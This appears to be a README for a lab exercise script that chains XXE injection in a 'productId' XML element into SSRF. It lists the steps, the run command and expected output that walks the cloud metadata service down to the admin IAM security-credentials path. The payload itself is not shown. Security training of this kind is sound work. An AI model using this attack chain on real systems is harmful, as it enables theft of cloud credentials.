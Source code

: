 # Hack Steps

1. Inject payload into 'productId' XML element to retrieve the path via SSRF
2. Extract the path from the response
3. Repeat the process with the new extracted path until you fetch the admin information

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python exploiting_xxe_to_perform_ssrf_attacks.py
```

# Expected Output

```
⟪#⟫ Injection point: productId
⦗1⦘ Injecting payload to retrieve the path number 1.. OK => /latest/
⦗2⦘ Injecting payload to retrieve the path number 2.. OK => /latest/meta-data/
⦗3⦘ Injecting payload to retrieve the path number 3.. OK => /latest/meta-data/iam/
⦗4⦘ Injecting payload to retrieve the path number 4.. OK => /latest/meta-data/iam/security-credentials/
⦗5⦘ Injecting payload to retrieve the path number 5.. OK => /latest/meta-data/iam/security-credentials/admin/
🗹 The lab should be marked now as solved
```
